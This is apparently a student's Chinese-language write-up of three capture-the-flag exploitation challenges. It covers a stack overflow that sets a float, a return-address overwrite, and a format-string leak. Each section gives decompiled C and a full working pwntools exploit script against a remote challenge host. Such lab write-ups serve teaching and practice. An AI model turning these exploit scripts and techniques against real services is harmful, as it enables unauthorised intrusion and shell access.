

大作业2: 漏洞利用wp

一、overflow
flag: flag{9ff842ab-cf5a-467d-adfe-0950bce79e7f}

逆向后发现需要构造输入能覆盖掉v2的值，使得v2恰好等于11.28125。
```c
int func()
{
  int result; // eax
  char v1; // [rsp+0h] [rbp-30h]
  float v2; // [rsp+2Ch] [rbp-4h]

  v2 = 0.0;
  puts("Let's guess the number.");
  gets(&v1);
  if ( v2 == 11.28125 )
    result = system("cat /flag");
  else
    result = puts("Its value should be 11.28125");
  return result;
}
```

完整的exp如下：

```python
from pwn import *
context.terminal=['tmux','splitx','-h']
context.log_level='debug'

p=remote('cssc.vul337.team',49323)
# p=process("./overflow")

import struct

def float2byte(num):
    return struct.pack('<f',num)

print(float2byte(11.28125))

print(len(float2byte(11.28125)))

payload=b'a'*(0x30-4)+float2byte(11.28125)

p.sendline(payload)

p.interactive()
```


二、overflow++
flag: flag{81f67306-ca18-4ebf-928b-b1f52fc5391b}

是栈溢出漏洞，而且有后门函数get_flag()，因此只要把vuln()函数的返回地址覆盖成get_flag()的地址就可以了。
```c
int get_flag()
{
  return system("cat /flag");
}
```

但是发现函数的字符串输入长度有限制，小于数组大小，直接依靠用户的输入内容的话，没有办法覆盖掉函数的返回地址。
```c
fgets(s_3C, 32, edata);
```
但是我们可以注意到，下面还有一个replace函数，这个函数的功能就是把输入字符串里面的`I`全部替换为`you`，这样字符串的长度就可以变长，来覆盖返回地址了。
完整的exp如下：

```python
from pwn import *
context.terminal=['tmux','splitx','-h']
context.log_level='debug'

p=remote('cssc.vul337.team',49322)

returnaddress=0x8048f0d

payload=3*b'a'+19*b'I'+b'a'*4+p32(returnaddress)

p.sendline(payload)

p.interactive()
```

三、fmt
flag: flag{630d24b0-20d6-4a4d-a9ac-4dabde597ee6}



先用ida查看源码，发现进行了几步操作：
1. 从/dev/urandom里读入一个整数并写到一个地址，地址是0804C044并且在bss段里
2. 输入一个字符串
3. 把刚刚那个输入的字符串打印出来
4. 输入一个字符串形式的整数，如果这个整数和刚刚从/dev/urandom里读出来的数相同那么可以获得shell权限

```c
printf(&buf_70);
```
可以看出是格式化字符串漏洞，只要输入`p32(0x0804C044)+b'-%p-%p-%p-%p-%p-%p-%p-%p-%p-%s'`就可以打印出地址`0x0804C044`的内容。然后再把它变成int就可以了。

最终把以上思路写成完整的exp代码如下：

```python
from pwn import *

context.terminal=['tmux','splitx','-h']
context.log_level='debug'

# p = process('./fmt')
p=remote('cssc.vul337.team',49321)

addr=0x0804C044

payload=p32(addr)+b'-%p-%p-%p-%p-%p-%p-%p-%p-%p-%s'

p.sendline(payload)

recv=p.recvline()
print(recv)
passwd=recv[-5:-1]
print(passwd)

int_passwd=int.from_bytes(passwd,'little')
print(int_passwd)

print(str(int_passwd))

p.sendafter(b'your passwd:',bytes(str(int_passwd),encoding='utf-8'))

p.interactive()

```
